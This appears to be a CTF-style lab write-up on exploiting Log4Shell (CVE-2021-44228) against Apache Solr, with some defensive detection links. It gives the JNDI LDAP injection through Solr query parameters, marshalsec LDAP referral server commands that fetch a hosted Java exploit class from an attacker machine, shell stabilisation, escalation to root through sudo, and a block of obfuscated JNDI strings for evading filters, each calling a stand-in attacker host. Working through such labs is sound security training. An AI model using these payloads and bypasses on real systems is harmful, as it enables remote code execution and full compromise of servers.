 # Solar log4j (log4 shell)

`export ip=10.10.33.179`



## recon
nmap : `nmap -v -p- 10.10.33.179 -oN recon/nmap`

## discovery & payload
- apache solr in port `8983`
- you could supply `params` to the `/solr/admin/cores` URL: send any HTTP GET param to use `${jndi:ldap://ATTACKERCONTROLLEDHOST}`

## marshalsec redirect ldap to http
- LDAP Referral Server
- `${jndi:ldap://attackerserver:1389/Resource}` -> reaches out to our LDAP Referral Server
- python3 -m http.server to host the java class exploit
- must use java 1.8.0
- `mvn clean package -DskipTests`
- we can start an LDAP referral server to direct connections to our secondary HTTP server: `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8888/#Exploit"`
### Exploit.java
- see `payload/Exploit.java`
- compile it with java 1.8.0: `/home/th3m7j0/Downloads/programs/openlogic-openjdk-8u262-b10-linux-64/bin/javac Exploit.java -source 8 -target 8`
- run simple HTTP server with python: `python3 -m http.server 8888`

## shell persistance:
- `python3 -c "import pty; pty.spawn('/bin/bash')"`
- `stty raw -echo`
- ctrl+z
- fg + enter
- `export TERM=xterm`

## we have root permission
- sudo -l -> `ALL`
- sudo bash

## resources
- https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes (local, based off hashes of log4j JAR files)
- https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d (local, based off hashes of log4j CLASS files)
- https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228 (listing of vulnerable JAR and CLASS hashes)
- https://github.com/omrsafetyo/PowerShellSnippets/blob/master/Invoke-Log4ShellScan.ps1 (local, hunting for vulnerable log4j packages in PowerShell)
- https://github.com/darkarnium/CVE-2021-44228 (local, YARA rules)
- As a reminder, a massive resource is available here: 

https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/

## bypass
```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/}
```